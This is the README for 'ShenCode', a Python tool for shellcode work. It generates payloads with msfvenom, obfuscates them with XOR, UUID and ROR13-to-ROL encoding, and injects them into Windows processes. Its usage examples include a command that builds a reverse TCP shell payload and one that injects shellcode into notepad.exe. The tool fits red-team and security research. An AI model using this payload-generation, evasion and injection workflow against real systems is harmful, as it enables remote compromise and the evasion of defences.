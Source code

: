 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![](shencode-040.png)

## Features

### Version 0.4.2

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `XOR` encryption
	- `UUID` obfuscation for shellcodes
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new inspect option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 10. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| **Command** | **Subcommand** | **Short** | **Description**                                                                       |     |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --- |
| create      |                |           | create a shellcode using msfvenom                                                     |     |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |     |
| encode      |                |           | Shellcode encoding                                                                    |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |     |
|             | --key          | -rk       | ROL key for encoding                                                                  |     |
|             | --xor          | -x        | use additional XOR encoding                                                           |     |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |     |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           |     |
| extract     |                |           |                                                                                       |     |
|             | --filename     | -f        | binary input file                                                                     |     |
|             | --outputfile   | -o        | name of the outputfile                                                                |     |
|             | --first-byte   | -fb       | first byte to extract                                                                 |     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |     |
| inject      |                |           | inject shellcode                                                                      |     |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |     |
|             | --processname  | -p        | process name to inject                                                                |     |
|             | --startprocess | -s        | if set, process will be started                                                       |     |
| output      |                |           | create formatted output by filename                                                   |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --lines        | -l        | adding line offsets                                                                   |     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |     |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |     |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |     |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
